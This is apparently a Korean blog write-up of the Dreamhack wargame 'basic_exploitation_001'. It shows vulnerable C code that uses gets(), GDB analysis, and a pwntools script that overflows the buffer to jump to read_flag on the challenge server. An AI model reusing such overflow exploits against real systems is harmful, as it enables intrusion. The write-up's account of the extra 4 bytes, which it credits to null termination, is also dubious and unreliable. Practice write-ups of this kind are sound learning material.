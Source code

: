 ```yaml
---
layout: single
title:  "Wargame : basic_exploitation_001"
categories: information
tag: [python, pwn, hacking]
toc: true
author_profile: true
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


## C 코드 분석


```c

#include <stdio.h>

#include <stdlib.h>

#include <signal.h>

#include <unistd.h>





void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}





void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);



    signal(SIGALRM, alarm_handler);

    alarm(30);

}





void read_flag() {

    system("cat /flag");

}



int main(int argc, char *argv[]) {



    char buf[0x80];



    initialize();

    

    gets(buf);



    return 0;

}

```


### main() 함수 분석


배열을 크기 0x80(128 byte)만큼 할당한다.



initialize() 함수는 입/출력 버퍼를 비활성화시키고, 프로그램의 실행시간을 30초로 제한하는 함수이다.



gets(buf) 부분에서 익스플로잇이 가능하다.



입력값의 크기를 제한하지 않았기 때문에 해당 부분에 취약점이 있는 것을 알 수 있다.



익스플로잇 방법은 gets()부분 입력값으로 128 byte + 4 byte = 132 byte를 아무 의미없는 문자열 입력 후, read_flag() 함수의 주소를 입력하여 read_flag()가 return 되도록 코드를 작성한다.



추가로 4 byte를 입력해 주는 이유는, gets()함수 특성 상 문자열을 입력받은 후 널 종료 문자로 끝나도록 하기 때문에 1 byte가 추가로 할당된다.



추가로 할당된 1 byte는 스택 메모리에 추가적으로 저장될 때 4 byte(1 word)씩 저장되기 때문에 4 byte를 추가로 할당해야 한다.


## GDB 디버깅


가장 먼저 read_flag의 주소를 살펴본다.



GDB 디버깅을 들어가서 info fuc으로 함수의 주소를 추적한다.



밑에서 보는바와 같이 read_flag의 주소는 '0x080485b9' 이다.


![image.png](/image/fead_flag 함수 주소.png)


다음으로는, 위에서 설명하였던 4 byte가 추가되는 것을 이해하기 쉽도록 디버깅 모드로 들어가서 확인해 본다.


![image.png](/image/4 byte 추가.png)


보다시피, [ebp - 0x80] 에서 할당된 0x80 뿐만 아니라 밑에 add exp, 4 에서 4 byte가 추가로 할당된 것을 볼 수 있다.


## Pwn 코드


```python

from pwn import *



p = remote("host3.dreamhack.games", 11188)



payload = b'A' * 0x80

payload += b'A' * 4

payload += p32(0x080485b9)

# read_flag의 주소를 패킹하여 payload에 더한다.



p.sendline(payload)

p.interactive()

```

![image.png](/image/basic_ex_shellcode.png)
